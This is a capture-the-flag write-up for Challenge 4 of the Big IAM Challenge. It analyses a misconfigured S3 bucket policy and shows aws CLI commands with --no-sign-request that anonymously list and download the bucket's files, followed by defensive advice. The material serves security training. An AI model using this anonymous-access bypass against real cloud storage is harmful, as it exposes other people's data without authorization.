 # Writeup for Big IAM Challenge: Challenge 4

# Challenge number

    4

## Challenge Statement

The goal of this challenge was to exploit an overly permissive IAM policy for an Amazon S3 bucket. My objective was to bypass the restrictions on listing and accessing objects in the bucket, retrieve the flag, and demonstrate the risks associated with misconfigured IAM policies.

## IAM Policy

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                },
                "ForAllValues:StringLike": {
                    "aws:PrincipalArn": "arn:aws:iam::133713371337:user/admin"
                }
            }
        }
    ]
}
```

### Short analysis about the IAM policy

```
* What do I have access to?
  - I have access to the s3:GetObject action for all objects within the S3 bucket (arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321/*). This means I can fetch any object as long as I know its name.

* What don't I have access to?
  - I don’t have direct access to the s3:ListBucket action unless my PrincipalArn matches arn:aws:iam::133713371337:user/admin. This restricts my ability to list the files in the bucket under normal circumstances.

* What do I find interesting?
  - The s3:GetObject permission is publicly available, which makes it exploitable despite the restriction on s3:ListBucket.
  - The IAM policy condition for s3:ListBucket applies only to authenticated users but does not restrict anonymous access to s3:GetObject.
  - The reliance on PrincipalArn for restricting s3:ListBucket highlights a common misconfiguration where individual permissions do not align with broader access controls.
  - The lack of anonymous access restrictions makes the bucket vulnerable, especially when sensitive files are stored without additional layers of protection.
```

## Solution

Step 1: Reviewing the IAM Policy
When analyzing the S3 bucket policy, I found two key points: - Public access was allowed for s3:GetObject, which meant anyone could fetch objects. - The s3:ListBucket action was restricted using a PrincipalArn condition, requiring the ARN to match arn:aws:iam::133713371337:user/admin.
Here's the policy snippet I analyzed:

```
{
    "Effect": "Allow",
    "Principal": "*",
    "Action": "s3:ListBucket",
    "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321",
    "Condition": {
        "ForAllValues:StringLike": {
            "aws:PrincipalArn": "arn:aws:iam::133713371337:user/admin"
        }
    }
}
```

Step 2: Attempting to List Files (Access Denied)
Initially, I tried listing the files in the bucket using the following command:

    aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/

    An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied

    This resulted in an Access Denied error because my Principal ARN did not match the admin user required by the policy.

Step 3: Attempting to Download a File

I realized the policy restricted the s3:ListBucket action but didn’t enforce signed requests for anonymous access. By using the --no-sign-request option, I bypassed the condition:

    aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/ --no-sign-request

    This successfully listed the files:

        flag-as-admin.txt
        logo-admin.png

Steo 4: Fetching the Flag
Next, I directly fetched the flag using the same anonymous access method:

aws s3 cp s3://thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt - --no-sign-request

    Flag: {wiz:principal-arn-is-not-what-you-think}

Step 5: Submitting the Flag

Finally, I inserted the flag found in the "Insert flag here" textbox and I was redirected to success screen.

## Reflection

- What was your approach?
  I analyzed the IAM policy to identify misconfigurations and tested various access methods. By using anonymous access with the --no-sign-request option, I bypassed the s3:ListBucket restriction and accessed the objects directly.

- What was the biggest challenge?
  The biggest challenge was recognizing that the s3:GetObject permission for public access could be exploited without needing the s3:ListBucket action.

- How did you overcome the challenges?
  I carefully studied the IAM policy and experimented with different access methods, eventually realizing that anonymous access would work for s3:GetObject.

- What led to the breakthrough?
  Understanding that the s3:GetObject action was not conditioned by PrincipalArn or ListBucket restrictions allowed me to bypass the restrictions and directly access the files.

- On the blue side, how can the learning be used to properly defend important assets?
  - Restrict Public Access: Avoid using Principal: "\*" in IAM policies unless absolutely necessary.
  - Align Permissions: Ensure that all actions (e.g., s3:GetObject and s3:ListBucket) are conditioned appropriately to avoid bypass scenarios.
  - Enable Bucket Policies: Use S3 bucket policies to explicitly deny anonymous access or unauthorized actions.
  - Implement Least Privilege: Grant only the minimum permissions required for specific roles or users.
  - Enable Logging and Monitoring: Use AWS CloudTrail to monitor access and detect any unauthorized or suspicious activity.
  - Encrypt Sensitive Files: Protect sensitive data using S3 bucket encryption, ensuring it remains unreadable even if accessed improperly.
